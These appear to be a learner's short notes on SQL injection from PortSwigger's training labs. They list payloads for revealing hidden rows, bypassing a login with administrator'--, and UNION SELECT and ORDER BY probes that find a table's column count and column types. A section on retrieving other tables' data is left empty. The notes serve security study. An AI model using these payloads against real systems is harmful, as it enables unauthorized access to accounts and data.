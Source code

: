 SQL INJECTION - Portswigger Notes
-----------------



1. to find hidden data 
   ` ' OR 1=1--`
   
   

2. Login bypass
    `administrator'--`
   
    
   
   ## Using UNION
   
   1.to find no. of cols:
    i) ' UNION select NULL,NULL,NULL--
   
        no.of NULL's is no. of cols ->200 response
   
    ii) ' ORDER BY 1--
   
        no. determines cols. -> if shown internal error, it' correct value

3. to identify datatype of column
    ' UNION select NULL,'a',NULL
    i) if error its not string
    ii) else its string
    can be analysed by -> ' order by 1--

5. retrieving data from other table
